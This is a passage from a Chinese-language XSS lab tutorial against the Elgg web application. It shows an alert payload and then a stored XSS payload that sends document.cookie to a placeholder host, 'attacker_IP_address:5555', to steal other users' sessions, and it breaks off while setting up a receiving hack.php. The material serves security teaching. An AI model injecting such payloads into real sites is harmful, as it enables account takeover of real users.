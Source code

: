 红色圆圈内就是该用户的 cookie。

为了更直观我们将上面的 javascript 代码替换成：

```
 <script>alert(document.write);</script> 
```

效果如下：

![图片描述信息](img/userid9094labid937time1430792536582.jpg)

弹出的这些字符就是你当前登录用户的 cookie。

### lab3 窃取受害者的 Cookie

lab2 的情况局限于获取自己的 Cookie，当然我们不需要自己的 Cookie，我们需要在不登陆的情况下，获取其他用户的 Cookie，这样我们就可以使用 cookie 直接登录别人的账号。

要窃取别人的 cookie，首先必须具备一个能接收 cookie 的环境，然后通过 javascript 代码把别人的 cookie 通过 http 请求发送到所搭的环境。

还是在 profiles 页面下编辑 javascript 代码

```
 <script>document.write('<img src=http://attacker_IP_address:5555?c=' +escape(document.cookie) + '> ');</script> 
```

下面我们将来创造一个这样的环境。

step1：在网站目录下面创建一个 hack.php 的文件:

```
sudo vim /var/www/XSS/elgg/hack.php 
```
